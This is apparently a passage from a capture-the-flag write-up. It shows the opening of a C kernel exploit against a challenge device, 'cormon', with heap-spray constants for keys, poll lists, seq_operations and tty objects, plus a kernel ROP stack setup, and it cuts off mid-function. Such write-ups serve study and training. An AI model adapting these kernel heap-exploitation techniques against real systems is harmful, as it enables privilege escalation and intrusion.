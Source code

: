 
うおうおふぃっしゅらいふ。

## Full Exploit

```exploit.c
#include "./exploit.h"
#include <bits/pthreadtypes.h>
#include <keyutils.h>
#include <pthread.h>
#include <sys/mman.h>
#include <unistd.h>

/*********** commands ******************/
#define DEV_PATH "/proc_rw/cormon"   // the path the device is placed

/*********** constants ******************/
#define DESC_KEY_TOBE_OVERWRITTEN_SEQOPS "exploit0"
#define SIZE_KEY_TOBE_OVERWRITTEN_SEQOPS 0x8
#define NUM_KEY_SPRAY (0x60)
#define NUM_2ND_KEY_SPRAY (NUM_KEY_SPRAY * 2)
#define NUM_3RD_KEY_SPRAY (0x10 + 0x8)
#define NUM_3RD_KEY_SIZE (0x290)

#define NUM_PREPARE_KM32_SPRAY 2000

#define NUM_POLLFD (30 + 510 + 1) // stack, kmalloc-4k, kmalloc-32
#define NUM_1ST_POLLLIST_ALLOC (0x10 - 0x1 + 0x1)
#define NUM_2ND_POLLLIST_ALLOC (0x120 + 0x20 + 0x40 + 0x40 + 0x40 + 0x200)
#define TIMEOUT_POLLFD 2000 // 2s

#define NUM_TTY_SPRAY (0x100)

#define NUM_SEQOPERATIONS (NUM_1ST_POLLLIST_ALLOC + 0x100)
#define NUM_FREE_SEQOPERATIONS (0x160)

#define KADDR(addr) ((ulong)addr - 0xffffffff81000000 + kbase)

/*********** globals ******************/

int cormon_fd;
int just_fd;
key_serial_t keys[NUM_KEY_SPRAY * 5] = {0};
int seqops_fd[0x500];
int tty_fd[NUM_TTY_SPRAY * 2];
char *cormon_buf[0x1000 + 0x20] = {0};
pthread_t threads[0x1000];
int num_threads = 0;
pthread_mutex_t mutex = PTHREAD_MUTEX_INITIALIZER;

ulong kbase = 0;
int neverend = 0;

char *krop_stack = NULL;
#define KROP_USTACK_SIZE 0x10000

/*********** utils ******************/

int num_keys = 0;
ulong _alloc_key_prefill_ulong_val = 0;
void _alloc_key_prefill_ulong() {
  static char *data = NULL;
  if (data == NULL) data = calloc(0x1000, 1);
  //for (int ix = 0; ix != 32 / 8; ++ix) ((ulong*)data)[ix] = _alloc_key_prefill_ulong_val;
```